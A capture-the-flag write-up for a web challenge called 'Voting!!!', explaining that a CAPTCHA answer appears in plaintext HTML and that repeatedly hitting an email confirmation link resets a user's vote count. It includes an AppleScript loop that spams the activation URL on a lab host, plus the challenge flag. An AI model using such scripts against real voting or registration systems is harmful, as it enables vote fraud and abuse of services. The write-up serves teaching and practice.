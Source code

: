# Voting!!!
###### 400 Points

### Problem
When Uncle Stan decides to run for mayor, Dipper and Mabel had to deal with the transformation of his hapless uncle in this candidate. But anyone can enter the pre-election headquarters, just also need to get some votes... [Link to voting page]

### Description
Clicking the link brings us to a simple voter login page, obvisously we don't have an account yet so we register for one. Registration asks for a username, password, email, and a CAPTCHA. Looking at the source, we can see the captcha contents are stored in plaintext in the HTML, interesting. At this point we create an account and click the email confirmation link, and login. We have one vote, if we don't vote for anyone that vote is retained. Another important observation is that clicking the cofirmation link resets the # of votes to one. 

Using this fact to craft a script that automatically spams the confirmation link. This is an obscure and terrible scripting language on macs called 'AppleScript', I'm sorry.

```AppleScript
to goToWebPage(theWebPage)
  tell application "Safari"
    activate
    set URL of document 1 to theWebPage
  end tell
end goToWebPage

to closeWebPage(thePageName)
  tell application "Safari"
    repeat with t in tabs of windows
      tell t
       if name starts with thePageName then close
      end tell
    end repeat
  end tell
end closeWebPage

repeat
  goToWebPage("http://10.0.1.123:8888/voting/activate?token=%242b%2412%24dTwbV8DS.0cCi0gQXXmG..1zbv7VJ.9V53Z9IUnPhdSMM.hf5101C&user=z1")
  delay 0.5
  closeWebPage("Login page")
end repeat
```
In another tab I setup an [autoclicking bot](http://www.murgaa.com/auto-clicker-mac/) pointed at our user profile. After about five minutes of AFK we had collected about 250 points. Logging into the user profile gave us the flag

###### Flag: RAINBOWPUKE
